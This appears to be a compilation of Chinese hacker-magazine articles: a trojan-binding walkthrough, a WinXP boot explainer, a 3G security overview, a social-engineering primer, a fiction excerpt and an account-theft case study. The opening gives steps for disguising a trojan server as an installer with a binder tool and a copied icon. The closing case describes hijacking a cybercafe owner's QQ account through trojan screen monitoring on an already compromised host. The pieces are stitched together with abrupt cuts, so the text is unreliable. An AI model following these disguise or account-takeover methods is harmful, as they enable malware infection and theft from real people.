接下来要做的就是把服务端程序和批处理程序捆绑起来，这里我使用的工具是“雨域剑盟捆绑器 2008”。首先在“选择要绑定的第一个文件”中设置木马服务端文件，接着在“选择要绑定的第二个文件”中设置批处理程序文件。现在点击“提取图标”按钮，在弹出的窗口中选择一个安装程序，这样就把安装程序的图标提取出来。

然后点击“现在捆绑后生成的目标文件”选项，在弹出的窗口中设置捆绑文件保存的目录，如图4。配置完成后点击“开始捆绑”按钮，即可生成我们需要的捆绑文件。



**编辑点评：** 思路不错，除了文中提到的RPC服务外，大家再想想，其他的服务可以一样利用吗？

---

## WinXP 启动内幕过程

从本文您可以学到：
1. 了解计算机的启动过程
2. 学会解决计算机启动中遇到的部分问题

经常碰到有人问：计算机无法启动、Windows启动变慢、提示找不到文件，或者蓝屏等关于Windows启动的故障。我根据多年的实战经验，并查阅了微软的技术文档，从计算机启动的内幕分析它的启动过程，让用户对系统的启动有更深层更细致的了解。

我将计算机系统的完整启动过程画了一张图，如图1所示，后面的讲解都是根据这个图示来完成。

### 一、自检及初始化部分

#### 1. 加电自检（Power On Self Test，简称 POST），CPU 复位
功能是检查电脑是否良好，通常完整的POST自检将包括对CPU、640K基本内存、1M以上的扩展内存、ROM、主板、CMOS存储器、显示卡、软硬盘子系统、各种插接口（串口、并口、USB口等）及输入设备（键盘、鼠标等）进行测试，一旦在自检中发现问题，系统将给出提示信息或鸣笛警告。

自检中如发现有错误，将按两种情况处理：对于严重故障（致命性故障）则停机，此时由于各种初始化操作还没完成，不能给出任何提示或信号；对于非严重故障则给出提示或警告，暂停号，等待用户处理。

#### 2. BIOS 部分
系统初始化包括创建中断向量、设置寄存器、对一些外部设备进行初始化和检测等，其中很重要的一部分是BIOS设置，主要是对硬件设置一些参数。当电脑启动时会读取这些参数，并和实际硬件设置进行比较，如果不符合，会影响系统的启动。

引导程序，功能是引导Windows或其它操作系统。BIOS先从软盘或硬盘的开始扇区读取主引导记录（MBR），如果没有找到，则会在显示器上显示没有引导设备；如果找到引导记录，则会把电脑的控制权转给主引导记录，由主引导记录找到分区引导记录，再由分区引导记录把操作系统装入电脑，BIOS的这部分任务就完成了。

> 小知识：EFI（Extensible Firmware Interface，可扩展固件接口），是由英特尔一个主导个人电脑技术研发的公司推出的一种在未来的类PC电脑系统中替代BIOS的升级方案，这里不做探究。

### 二、BIOS 到操作系统的过渡部分

#### 1. MBR（Master Boot Record，主引导记录）
MBR存在于硬盘0磁道的第一个扇区，它的大小是512字节，而这个区域可以分为三个部分。第一部分为pre-boot区（预启动区），占446字节；第二部分是Partition table（分区表），占66个字节，该区域相当于一个小程序，作用是判断哪个分区被标记为活动分区，然后去读取那个分区的启动区，并运行该区中的代码；第三个部分是结束代码标识（55AA）。

大家可以通过如图2所示的画面来概念性的了解一下MBR：

> 小知识：关于分区表（DPT）
> 在主引导区中，从地址BE开始到FD结束为止的64个字节中的内容就是通常所说的分区表，分区要以80H或00H为开始标志，以55AAH为结束标志，每个分区占用16个字节。一个硬盘最多只能分成四个主分区，其中扩展分区也是一个主分区。随着硬盘容量的迅速扩大，引入的扩展分区可以不受四个主分区的限制，把硬盘分区数扩展到“Z”。

值得注意的是，MBR是由分区程序（例如DOS的Fdisk.exe）产生的，它也并不是以文件的形式存在的，而是由BIOS通过磁盘的定位来完成读写操作的。不同的操作系统，这个扇区的内容代码可能是不同的，但是实现的功能只有一个，使其中的一个活动分区获得控制权，正常启动系统。

MBR不随操作系统的不同而不同，即不同的操作系统可能会存在相同的MBR，即使不同，MBR也不会夹带操作系统的性质，其具有公共引导的特性，实际上它是让BIOS过渡到操作系统的中间部分。

如果是EFI方式，它会加载BOOTMGR，然后进行相应的启动，这里不作研究。

### 三、操作系统部分（WINDOWS）

#### 1. BOOT sector（分区引导记录）
在上面对MBR的介绍中我们了解到，通过引导程序代码可以找到分区表中的活动分区的引导记录，并将控制权交给它。BOOT sector是活动分区的引导记录，存在于活动分区开始的第一个扇区，也不是以文件的形式存在，是由MBR中的第一部分程序来读取的，它是由操作系统在安装时初始化建立的。下面是BOOT sector的详细介绍：

> Boot sector即操作系统引导扇区，通常位于硬盘的0磁道1柱面1扇区（这是对于DOS来说的，对于那些以多重引导方式启动的系统则位于相应的主分区/扩展分区的第一个扇区）。操作系统可直接访问的第一个扇区，它也

4、症状：出现以下信息：

```
Windows could not start because the following file is missing or corrupt:
<Windows root>\system32\hal.dll please re-install a copy of the above file.
```

或者蓝屏出现以下信息：

```
Stop:0x0000135 unable to locate component This application has failed to start because kernel32.dll was not found. Re-installing the application may fix this problem.
```

原因：磁盘损坏或文件丢失、损坏。
措施：进入到“故障恢复控制台”，然后运行“CHKDSK”。

在实际操作过程中，出现的问题比上面要多得多，关键是根据计算机系统的启动过程来逐步分析出错的原因，然后找到解决的方法。以上的分析还有不完善的地方，希望有兴趣的朋友参与进来共同完善它。只要我们对计算机系统的启动明明白白，那么在分析启动故障时就会更加准确无误了。

> 编辑点评：很多人用了几年电脑却还不知道电脑在启动的时候都做了什么，当启动遇到问题的时候自然就会不知所措了，然后你就会选择——重装系统。其实很多问题都可以用更简单的方法解决。

---

## 从本文您可以学到：
- 1、认识3G
- 2、了解3G的安全相关问题

作为人们当下最关心的词语，3G无疑是个热门话题，3G的每一方面与前面2G和2.5G各代都有了长远的攀升。在3G带来便捷生活的同时，会有怎样的隐患？下面的文章来与大家共同探讨探讨。

因此，3G网络与以前的移动通信网络相比，更具有IP网络的特征。移动通信正在演变为IP网络上的一种特殊应用，3G面临最主要的安全威胁，也不再像以前的语音通信系统那样来源于内部，而是像IP网一样，来自外部。

## 1、什么是3G？

3G是指第三代数据通信，它与前两代的主要区别是在传输声音和数据时速度上的提升，它能够在全球范围内更好地实现漫游及视频点播、可视电话、高速下载、手机游戏，并提供包括网页浏览、电话会议、电子商务等多种信息服务的3G应用。这里需要注意，3G仅仅指的是一种通信技术标准，符合这个标准的手机才是3G手机。

目前符合这个标准的技术有：W-CDMA、CDMA2000、WiMAX和TD-SCDMA，而这其中的TD-SCDMA由我国提交且正式成为国际标准。以上四种标准是由国际电信联盟（ITU）所制定。

## 2、3G网络的安全概述

鉴于网络上已经有很多铺天盖地的相关介绍了，大家可以去搜索查看，其安全核心依旧是对于IP接入的关注。作为最新引入的技术，IP的接入无疑大大拓展了手机的丰富性，并且伴随着高度灵活性和扩展性也成了通信网络技术的宠儿。它在带给用户极大便利的同时，由于其不可控性又威胁着用户利益，使得IP网安全成为了人们关心的焦点。由于为用户提供的服务也将全部基于IP技术，这也就成为了网络的安全软肋。

## 3、何谓安全的3G

安全的3G网络首先应当保证网络设备正常工作，不被黑客侵入，免受病毒影响；网络层安全的终极目标是保障应用层数据的正常传输，数据流序列不被扰乱或中断。应用层安全建立在网络安全之上，目标是保证数据的完整、可信，避免被窃听、截获、篡改和伪装。移动通信用户对网络安全的体验，建立在应用层安全的基础之上，并以此为依据衡量运营商提供的通信服务质量。

## 4、有关3G体系的介绍

（参考了有关3G体系的资料，详细内容大家可以到Google搜索，这里只做简介）

3G系统结构可以分为四个部分：用户设备（UE）、无线接入网络、核心网络和业务网络。在3G系统中，它们具有各自不同作用，对网络安全的影响和要求也不相同。

### （1）用户设备（UE）

较为单一，这些设备本来不容易被病毒感染，也不是黑客攻击的主要目标，但随着技术的发展和市场的需求，3G上的丰富应用要求手持设备具备更多功能。随着通用平台的流行，并普遍配备高速读/写接口，这些变化都导致了手持设备的安全系数降低。

与便携电脑相比，手机设备通常长时间处于待机状态，很多应用也要求用户“永远在线”。一旦手持设备成为一个长时间在线的IP终端，它就不可避免地直接面对各种安全威胁，被病毒感染或者黑客入侵后更不易被发现。因此，这类设备上的安全漏洞隐蔽性更强，持续危害时间更长。

3G可以为用户提供2Mbps以上的接入速率，接入速率提高和接入地点不停变换，使得对移动终端的安全监控和管理更为困难。一旦移动终端成为病毒和黑客程序的发源地或中转站，将使更多恶意保护的终端暴露在高度危险下，并有可能形成爆发的态势。

### （2）无线接入网

无线接入网承担无线网络控制器之间的信令和数据传输，主要使用IP作为无线接入网的传输协议。可以说，IP网的主要安全威胁来自外部、来自用户。最初，在以TCP/IP协议栈为基础的因特网上，每个网络节点、每台主机、每个用户是平等的，面对安全威胁都存在着一点突破、全网瘫痪的危险。这种状况随着IP网络安全机制的不断完善而有所改善。IP网丰富应用带给用户极大的便利，外部因素的不可控性又威胁着用户利益，使IP网安全成为了人们关心的焦点。

### （3）核心网

核心网的意义就在于它完成用户语音通信的交换控制和路由选择任务，是移动IP数据接入过程中最核心、最关键，也是最后一道用户控制和业务分类工作。

### （4）业务网络

3G发展的核心问题是业务和应用，这已经是不争的事实。这里所说的“业务”，绝不仅仅局限于以电路交换为基础的语音业务，而必然是基于IP的、多种多样的数据业务，因特网业务将在其中占很重要的地位。

因特网本身是一个没有安全保障的网络，所有接入国际因特网骨干的运营商网络都需要依赖自己的措施进行自我保护。3G网络通过接入各网关连接到因特网时也不例外。3G系统的业务网络中将会包含越来越多的应用服务器，基于IP技术的业务开展越来越丰富，整个系统对外的接口就越多，直趋增加的外部接口也会增加安全隐患。随着电脑技术的日新月异，因特网上黑客技术和电脑病毒的发展和扩散速度也在惊人地增长。

## 5、相关的威胁

随3G到来的东风，各式各样的威胁也会接踵而至的。与电脑平台一样，在前期也会产生一种探讨的模式。可是一旦有某板块（例如普及率）的增长，各式各样的新型攻击招数也会呈现出一种爆炸性增加。

### （1）老大难——病毒

随着手机用户数量的不断攀升，智能手机操作系统的流行，再加上3G手机的发展，专门针对智能手机的病毒现在就已经超过了五百多种。因为它具备自我运行和不断复制的功能，但不少用户并不清楚手机病毒的危害有多大。手机病毒通过一段特定的程序代码，或者是利用手机软件中原本存在的各种软件漏洞，或者设计缺陷入侵手机，实现病毒制造者各种各样的目的。

其实手机病毒原理同计算机病毒一样，它以手机网络和计算机网络为平台，通过短信、下载等形式，对手机进行攻击，从而造成手机使用异常。手机感染病毒后，突出特征是运行慢，经常出现死机或者白屏现象，并且电池消耗会特别严重，甚至还会自动根据手机上的联系人名单发短信，浪费机主的话费。

智能手机不断普及的今天，手机病毒的危害也随之日渐泛滥，最著名的“Cabir”蠕虫病毒于2004年开了先河，其破坏程度和查杀难度都随着其变种的不断更新而日益提高。

从某种意义上说，手机病毒是手机智能化的衍生物，而3G手机的一个显著特征就是智能化。随着3G时代的到来，越来越多的手机用户将使用蓝牙或网络传输技术，手机正在成为病毒载体以及黑客和病毒制造者的攻击目标。

假设有大规模的手机用户感染了病毒，也许将会出现一个庞大的手机僵尸网络，可前提是要有那么多数量的手机。就目前手机病毒来说，还是存在着局域性，因为不能够如电脑一般传播。面对病毒制造者的又一个门槛，恐怕是如何更加有效地传播日夜耕作的产物。

### （2）如何防——DDoS的泛滥

近年来，僵尸网络已经变得越来越庞大和复杂，不断滋生传播垃圾邮件、网络钓鱼和身份盗用等网络犯罪行为。电信运营商和3G内容提供商的利益也在受到僵尸网络的侵害。由僵尸网络发起的DDoS攻击持续威胁着电信网络的性能与安全，给运营商带来直接或间接的经济损失。

智能化终端和宽带化3G网络会与互联网接轨，而无线互联网内部也将实现互联化，传统互联网面对的诸多安全问题，如DDoS攻击、蠕虫等，也将陆续出现在无线互联网中，这将会给缺乏互联网DDoS防范经验的通信网络带来巨大挑战。在用户不知不觉中，手机自动发送数据，机主不会知道自己的流量究竟提高了多少。可以预言，一些黑客组织将逐步宣布他们在市面有多少个手机，可以对哪个网站直接发动攻击。干扰或滥用攻击将导致系统拒绝服务或服务质量降低，这方面主要包括：

- **干扰**：攻击者通过阻塞用户业务、信令或控制数据使合法用户无法使用网络。
- **资源耗尽**：攻击者通过使服务网络过载，从而导致用户无法使用服务。
- **特权滥用**：用户或服务网络利用其特权非法获取非授权信息。
- **服务盗用**：攻击者通过滥用某些系统服务，从中获得好处，或者导致系统崩溃。

### （3）伪装没商量——欺骗攻击将更容易

3G将面临的安全风险越来越大，以上两种威胁对于用户的损害是致命的。在网络融合之前，手机大部分情况下是比较安全的，可是仅通过数字签名来保证数据来源的真实性还是不够，因为它只能证明该信息是用特定人的特定密钥加密的，但它不能证明该信息就是特定人签署的。

私有密钥是存储在SIM卡中的，而SIM卡的破解复制又是一大问题。通常来说，对系统信息的保密性进行攻击一般包括：

- **侦听**：攻击者对通信链路进行非法窃听，获取信息。
- **伪装**：攻击者伪装合法身份，诱使用户或网络相信其身份合法，从而窃取系统信息。
- **流量分析**：攻击者对链路中信息的时间、速率、源及目的地信息进行分析，从而判断用户位置或了解重要的商业交易是否正在进行。
- **浏览**：攻击者对敏感信息的存储位置进行搜索。
- **泄露**：攻击者利用合法路径介入进程获取敏感信息。
- **试探**：攻击者通过向系统发送信息来观察系统反应。

总体来说，以上的威胁若是得到了长久迅猛的发展，通讯的安全系数想必也会大打折扣了。以上的威胁不管是从普及或者是从技术上来说，都是一环扣一环。技术的门槛和其它的限制因素同样制约着以上技术的流行，可以说，较之以前的2G、2.5G网络，3G的安全系数无疑会大大增加。

由此可见，当疯狂享受3G带来的便利的同时，安全问题也不容小觑。

通过对受害者生理层面（视、听、触觉等认知误区）的本能反应及心理层面（好奇心、信任、贪婪等心理陷阱）进行诸如欺骗、伪善等手段，结合计算机安全威胁取得自身利益的手法。

**社会工程学攻击**就是利用人自身的脆弱，并结合计算机程序漏洞进行非法入侵渗透的网络犯罪行为，较之传统计算机犯罪具有高度隐匿性、高威胁、难以侦查等特性。

社会工程学攻击者与传统网络入侵者存在本质的区别，如图1。

**社会工程学攻击核心思想**以人的心理脆弱点为主，网络入侵渗透技术为辅。从信息安全资产保护角度来看，企业管理者走入了盲目信任安全软件、硬件防御等来保护信息资产的误区，而忽视企业内部员工泄密的隐患问题。

信息安全以人为本，而人的安全威胁是导致易受社会工程学攻击的关键。人是脆弱的，且拥有无价的信息，使得绕过物理防御很容易。同时，这项攻击技术的复杂性对攻击者有严格的要求，包括主要的人类行为心理学基础、网络入侵渗透技术、数字反取证反侦查、情报跟踪技术等等，其技术区别于传统的系统威胁，主要是通过人来获得最后需要达到的目的。

**社会工程学攻击具有多样化、复杂化、隐蔽化、高威胁等特性**，具体表现于可通过广泛的技术手段伪造可信的身份、虚假的数据获得受害者的信任，由此引导、操控受害者做出错误的行为。

- 从本文你可以学到：
- 社会工程学的理论总结

过去我们所了解的常见计算机攻击无非是病毒、蠕虫、0day漏洞入侵等形式，而现在，新型的入侵技术开始引人注意了，那就是社会工程学攻击。它是一种窃取授权书和密码的计算机入侵手段，结合了计算机威胁与人对人的威胁进行入侵，使得入侵渗透无往不利，成为新一轮的网络威胁。那么，社会工程学攻击是什么呢？它又是如何实施的？我们如何降低这项攻击的威胁？本文为解决这些答案而来。

## 一、社会工程学攻击的概念

“社会工程学攻击”术语始于计算机安全领域，又称社工、社交工程。它是一项综合运用人与计算机自身威胁的入侵渗透攻击技术。其定义为，一种通过……

### 信誓定风云

蛋炒饭要对自己的信誉负责，而茄子也要为自己的偶像负责。所以拿到茄子传过来的系统整改细则时，他看了很久。不可不可否认，按照方案来做，整个工作流程是会规范许多，工作量的评定也会比原来更容易界定。但是如同安全界的定义一般：安全性与操作性是成反比的。现在的情况是，整改效果会很好，但是员工的工作方式却比以往更麻烦一些。

蛋炒饭要考虑对方单位执行力的好坏，一个好的方案，遇到一个执行力欠缺的公司也是白搭。所以最优秀的不见得是最好的，重病不能下猛药，循序渐进才是正道。也只有这样才能看到成效，才不会砸了自己的招牌。蛋炒饭是一位执着的人，但不是顽固的人，他只对最终目的负责。这是一种变通，或者说是曲线救国。

茄子尽可能地帮助蛋炒饭做这个实施方案，他越写越发现熟悉，但一贯的懒惰思想作祟，他并没有去深层思考原因。

这种想法而已。有的时候懒惰确实是一种动力，但更多时候领导者之所以称为领导者，是因为领导者总在掌控人力资源，而IT民工在掌控电脑。

这次用蛋炒饭之手肃清那个在亏本边缘徘徊的分公司也是无奈之举，如果自己动手，必然会得罪几个最大的股东，要是因为分歧引发股价下跌却是得不偿失。恒总考虑得很长远，他找到茄子这个熟悉公司情况的人，又能容忍蛋炒饭那种低调的高傲。所以事情发展到这一步，其实全都在自己的掌控之中，茄子和蛋炒饭也许将来会成为好朋友，但并不会明白这几个公司之间的关系，也不会知道自己很早就和双方认识。又或许不久的将来，蛋炒饭会加盟自己的公司，有这种可能，但是不一定。恒总对这期有信心，却对结果不强求。

### 黄雀在后

蛋炒饭接到恒总的电话，询问系统整改的实施情况，他先恭维了两句，然后告诉恒总一切顺利，借了个朋友帮忙，预计完成时间用不了一周，但是希望顾问费结算还是以7天计算。

恒总当然知道顾问费要以7天计算，这早已经签了合同，想赖也得丢得起这个脸和打得起官司才行。他也知道茄子非常配合，这本来就是他牵线搭桥的，之前蛋炒饭根本不知道茄子是他的员工，而茄子也不知道方案是给集团内用的。作为一个拥有多家公司的亿万富翁来说，他明白手下员工的喜好以及作风习惯，这种来自Google Hack的习惯一直被保留了下来，所以获得了庞大的有用信息。茄子的生活轨迹他看得明明白白，他也知道茄子欣赏蛋炒饭，所以虽然表面上是茄子帮助了蛋炒饭，但更深层地说，是蛋炒饭欠下了自己公司的一份人情。恒总只是顺势利用了这种想法而已。

### 尾声

大概一周的时间，茄子没有去公司门前的饭店解决午餐，下一个星期来到公司之后，他突然想着要去那看一看。结果中午少了番茄那吵嘴的声音，问了问老板才知道，番茄回家相亲去了，如果不出意外，不会再来北京。番茄虽然不是个漂亮的姑娘，但还算是个充满热情和勤劳的女人。

茄子突然觉得有些纳闷，尽管他还说不上对番茄有什么特别的好感，可听到番茄再也不来的消息，他的心口还是狠狠地疼了起来。也许曾经想说些什么，但是现在已经没有机会了。

> **编辑点评：**
> 茄子、蛋炒饭、香肠、恒总……名字听上去都很怪，但他们都是安全圈内一些牛人的绰号。作者范范英雄般地把他们的名字搬进了一部小说，讲的都是一种生活氛围，很无奈又不得不习惯的IT人生活经历……也许小说会和他们真实的生活有所交集，但小说就是小说，我们且当故事听吧……

| 项目 | 社会工程学攻击者 | 传统网络入侵者 |
|---|---|---|
| 明确的计划、针对性攻击 | 是。攻击者在渗透某个企业内网前，往往会事先评估是否具有攻击价值。 | 无。攻击者无明确的攻击目标，通常采取搜索引擎搜索及网络扫描等手段进行筛选。 |
| 踩点和侦查、复杂性 | 是。攻击者除了对主机信息获取外，还对受害者进行隐私化、网络配置等分析。 | 无。单向的 IP 主机信息判断，即主机操作系统指纹扫描、网络拓扑结构探测。 |
| 攻击行为具有欺骗性、隐匿性 | 是。攻击者通过电话拨打欺骗、伪装，电子邮件与受害者进行沟通或交互行为窥探隐私。 | 无。通过漏洞扫描器使用专用 Exploit 工具进行攻击，无漏洞需要重新扫描评估。 |
| 攻击技巧多变性、重视伪装技术 | 是。通过网络钓鱼、身份盗用、社交窃取等伪装技术，组合攻击技巧及更多样式。 | 无。传统保护方法及入侵思路，局限于程序漏洞和自身安全完整性，攻击技巧单一。 |
| 显著的专业技术与术语 | 是。除了主要计算机入侵渗透与社交技巧外，还需要熟悉不同领域受害职业技术语言。 | 无。攻击者仅需主要的计算机入侵渗透技术，其它相关行业技术不需作此掩护。 |

图1 社会工程学攻击与传统网络入侵者的区别

我们常讲：最安全的计算机就是已经拔掉了网线的计算机（物理隔离）。事实上，利用社会工程学技术使用权威的身份说服内部人员克隆数据，便可通过外传窃取信息资产。通过人的威胁与计算机的威胁相结合，那些自认为最警惕、最小心的人也难逃社会工程学手段的损害。

## 二、几种社会工程学攻击手法剖析

从2007年开始，利用社会工程学手段窃取机构、个人利益的网络犯罪事件越来越多。例如，犯罪分子篡改汶川大地震后的红十字会赈灾捐助银行账号；利用来电显示变换技术冒称银行人员谎称受害者曾泄露信用卡信息；利用短信群发器威胁恐吓受害者家人遭绑架；或谎称受害者发布色情信息……一种种层出不穷的网络犯罪事件显示了社会工程学攻击新的趋势，其明确的攻击规律随着新的科技应用而滋生出更多的攻击手法。例如，随着3G牌照的发放，智能手机犯罪事件将成为新的安全隐患。

对社会工程学攻击的范围可划分为生活中的社会工程学与网络中的社会工程学。我们先来看看生活中的社会工程学攻击形式，主要包括以下几点：

### 1、生活中的社会工程学攻击

#### （1）垃圾搜寻
垃圾搜寻是社会工程学信息刺探的基础手段之一。政府机构、企业运转会周期性地产生废弃的旧文档及过时电子数据垃圾，然而未经过安全策略进行完善的销毁处理时，废旧的文件直接丢入垃圾箱将成为极大的安全隐患。

目前国内绝大多数企业未有效地对员工进行专门的安全培训教育，使得员工在处理垃圾信息时掉以轻心，丝毫不知正在泄露商业机密。通过垃圾搜寻手段挖掘的敏感信息主要为：雇员通讯录、商业合作伙伴、产品说明文档、部门总结报告、供应商以及客户档案等，通过对企业敏感信息的分析，可以找出潜在威胁弱点实施欺骗。

#### （2）电话拨打
电话拨打攻击的目的是进行深入的情报挖掘与实施间接性的入侵攻击，这种跨空间性的入侵不需要与受害者进行面对面的接触，其优点是攻击者入侵成功后很难有线索及痕迹留下，避免被跟踪。

曾入侵联邦调查局、超级计算机中心的美国头号黑客凯文·米特尼克便是精于电话拨打攻击的行家里手，他出版的《欺骗的艺术》一书就对电话拨打攻击进行了详细的案例说明。攻击者在实施电话拨打攻击时，一般的流程是在信息收集准备后，计划好掩藏电话拨打痕迹，使用伪造的身份通过社交技巧实施电话拨打攻击。

#### （3）信息伪造
绝大多数时候，攻击者采取社会工程学的直接索取法手段窃取公司商业秘密，而前提的准备工作是实施信息伪造。通过信息伪造，受害者误认为攻击者是授权可信的身份，最终导致一系列的商业秘密失窃。

信息伪造利用的是人类感官盲区，视觉性的欺骗使人们很难区分虚假的证件；听觉性的欺骗使人们误认为接到的电话一定是来自内部人员；感觉性的欺骗使人们很难区分发生的虚假事件是否真实。在数字时代，MD5加密算法的碰撞性使得一个文件的校验值不再唯一，高难度的算法克隆只是时间性的问题。事实上，优秀的攻击者可随意伪造电子邮件发送者或伪造拨打来自司法的110电话，从而向受害者撒下弥天大谎。

#### （4）链锁式陷阱
攻击者为了达到完全的社会工程学攻击，他们会将欺骗的环节层层关联起来，使事情的发展显得自然。一旦受害者迈出了糊涂的一步，很有可能被迫执行来自攻击者的最终命令。

在过去的几年，链锁式陷阱常见于以下两种方式：
- 拒绝服务攻击 ——> 合法中间人 ——> 提供虚假帮助 ——> 指令性信息索取
- 伪装合法机构 ——> 不可拒绝的审查理由 ——> 警告与威胁恐吓 ——> 信息索取

过程中的每一个环节实施的方式都是不一样的，它复杂多变，蕴含大量技术技巧。国内常见的电话诈骗集团就运用了第二种方式，银行打来电话警告用户信用卡账户存在风险，并提示等待来自公安局的110电话。当用户接到来电显示110号码的电话为信用卡安全感到恐慌时，对方再次引导受害者去ATM机转账，一系列的连环手法让受害者不加以理性判断而导致了资金失窃。

#### （5）窃听与监控
为了获取更多的信息来分析入侵的可行性，攻击者会围绕目标的计算机和使用者的电脑数据与个人信息进行完整的潜在威胁挖掘，确保知己知彼而实施最大化的入侵。

社会工程学攻击者与传统计算机入侵者的区别在于，社会工程学攻击主要具备分析与挖掘信息的能力，或者说，入侵的过程以信息收集为关键。传统的入侵者大量的精力是花费在程序的漏洞挖掘上，而社会工程学攻击者花费在窃取的机密信息上。这解释了窃听与监控等信息刺探手段为何对社会工程学攻击是如此的重要，当然，这一环节需要物理性的主动探查。

#### （6）反向社会工程学
反向社会工程学又称反侦查技术，是一种规避与掩藏痕迹的技术，用以对抗传统数字取证与网络取证，其中大量的技巧使得攻击者在入侵结束后快速藏匿。

反向社会工程学并非局限上述几种方式，作为隐藏攻击源的技巧，攻击者需要花费更多时间考虑周全，即以安全专家的调查角度入手，尽可能降低攻击痕迹留下的几率，这种方式的典型代表通常必须具备反侦查能力。在系统安全防御中有句名言：“最小权限、最少的服务、最小端口”。而同样地，反向侦查的格言是：“最小痕迹、最少的动作、最少的威胁”。

### 2、网络中的社会工程学攻击形式：

#### （1）信息刺探——环境扫描
为了窃取某服务器重要的数据库资料，攻击者最初的环节不是急于直接的入侵渗透，因为不经过完整且系统性的网络环境扫描，通常既是浪费时间。环境扫描与搜索环节是网络社会工程学攻击最为重要的攻击前奏，通过扫描，攻击者很容易知道目标的系统类型、安装的应用软件，存在的已知脆弱漏洞或安全报告，从而为后续的环节进行铺路。

#### （2）信息刺探——搜索与语义分析
搜索与语义分析是信息刺探的一个分支，它的侧重点放在人的信息收集上，即网络上任何与受害者相关联的信息。然而绝大多数时候，攻击者最初的跟踪线索来自目标的网络ID、电子邮箱地址。

利用搜索引擎收集信息是最常见的方式，其搜索爬虫索引了全球网页快照并存档，这意味着保存着全球上网者的浏览痕迹。配合搜索引擎的高级搜索语法，数秒之内可以还原目标浏览过的网站历史，通过入侵网站数据库，亦能获取到目标的IP记录。

当然，人工形式的语义分析使得攻击者可以从目标发布的网络文章获取蛛丝马迹，从中知晓目标的兴趣爱好、学历程度、就职于何种公司……不要质疑高明的语义分析人士，他们仅需要对比报告中的签名，就能探测出签名的来源地。

#### （3）网络钓鱼
为了更有效率地窃取目标的密码，使用仿冒的网站实施钓鱼攻击来获取密码是很有效的方式。要让网页达到以假乱真的程度，除了要以各种形式加以伪装，还需要编造合适的理由引导目标在假冒的网页输入密码信息。

例如，通过发送邮件，攻击者告诫受害者的网络账户存在风险需要登录更新；或者陌生的QQ好友发来看似可信的链接，提醒受害者有免费领取奖品或参与比赛的机会……受害者一旦不加以怀疑而点击了链接，如同鱼儿咬住了饵钩，等着被钓者窃取密码。

#### （4）密码暴力破解
密码攻击总是占据着计算机入侵的重要环节。当脆弱性的系统漏洞很难利用时，密码暴力破解的手段就派上用场了。

以社会工程学为主的攻击者不会行使惯常的方式，因为直接使用密码字典类的软件生成字典颇为浪费时间。有经验的攻击者通常使用位于网络中的高配置肉鸡作为网络暴力破解环境，或使用TB级Rainbow表来破解HASH数值。最初的信息刺探也在暴力破解中扮演着重要的角色，通过收集的信息可以分析出目标的密码习惯，即偏好以出生日期、姓名拼音、有意义的字符等作为密码，攻击者可拼凑目标信息的关键字来生成密码字典。

例如，利用目标的姓名拼音+出生日期、手机号码+网络ID、学号+身份证号等进行拼凑建立起密码字典，从而实施有效的暴力破解攻击。

#### （5）网络身份伪造
与前面的信息伪造的区别在于，网络身份伪造是伪造相似的网络虚拟身份，以此影响受害者的错误认知。

例如：某天目标关系很铁的大学朋友在QQ上告诉他，他正在投资的重要项目需要资金帮助，受害者二话没说就往其银行账户打入了一定数额，可后来才发现那个QQ号根本就不是他朋友的，而是攻击者使用相同QQ名称、QQ图标、相似性QQ号码。在网络中没有什么符号会是唯一的标识符，看上去没有什么是真实的，这和人类的整容技术没有区别。

## 三、应对社会工程学攻击威胁

毫无疑问，企业是最易受到社会工程学攻击的重灾区。在社会工程学攻击的面前，任何企业都无法完全抵御和预防，因为人的安全威胁是主导因素。安全专家的建议是降低被攻击的威胁，员工应接受安全培训教育。不要妄想购买更好的物理防御设备或堡垒式的安全防御软件就能获得绝对的安全感，企业必须解决人的安全问题。

对于普通用户，为了使您蒙受攻击的损失减小，至少需要做到以下几项要求：
- 提高安全意识，不轻信陌生人的信息。
- 定期更换复杂密码，不使用简单的个人信息组合。
- 谨慎点击不明链接，核实网站真实性。

安全是一个整体，缺一不可。社会工程学威胁不可能完全消除，它需要经过安全培训及堡垒式的系统安全来降低可能被攻击的频率。

> **编辑点评：**
> 理论性的东西，给大家上一课，大家读读，我想是有用的。

---

## 案例分享：通过社工发现腾讯的一个限制

一次偶在网吧上网，无意中得到了网吧业主的QQ号。由于他的点卡业务量比较大，于是我便有了一个念头，想改一下他的QQ密码，然后用木马的屏幕监视功能，看一下主机（我已经获得主机权限）上他找回QQ密码的过程，这样他的QQ密码保护问题我就知道了！

本来想给他种个QQ木马，可是一想，就算知道了密码，如果密码保护问题我不知道的话，也改不了他的密码啊？于是我就想到了从腾讯客服中心官网站点着手：

1. 按“点击进入”来到查询页面。
